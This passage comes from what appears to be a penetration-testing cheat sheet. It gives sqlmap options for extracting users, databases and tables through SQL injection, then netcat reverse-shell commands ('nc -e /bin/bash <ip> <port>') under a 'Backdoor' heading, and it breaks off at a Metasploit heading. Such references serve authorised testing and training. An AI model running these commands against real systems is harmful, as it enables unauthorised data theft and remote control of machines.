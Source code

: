 ### sqlmap

[sqlmap kalitools](https://tools.kali.org/vulnerability-analysis/sqlmap)

```
sqlmap -u '<target?parameter=1>' -p <parameter> --technique=B
```
- -u : link
- -p : parameter
- --technique= : technique used
- - B : Bolean
- - U : UNION 
- --users : grab users
- --dbs : show all db
- -D : select db
- --tables : show all table
- -T : select table
- --columns : show all column
- -C : select column

# System Attacks

## Backdoor

### nc

[nc manpage](https://manpages.debian.org/stretch/netcat-traditional/nc.1.en.html)

Server (reverse connect)
```
nc -lvp <port> 
```
- -l : listen mode
- -p : port
- -v : verbose

Client (reverse cmd)
```
nc -e cmd <ip> <port>
```
- -e : execute

Client (reverse shell)
```
nc -e /bin/bash <ip> <port>
```
- -e : execute

### Metasploit / Meterpreter

[Metasploit Framework kalitools](https://tools.kali.org/exploitation-tools/metasploit-framework)

Make Backdoor
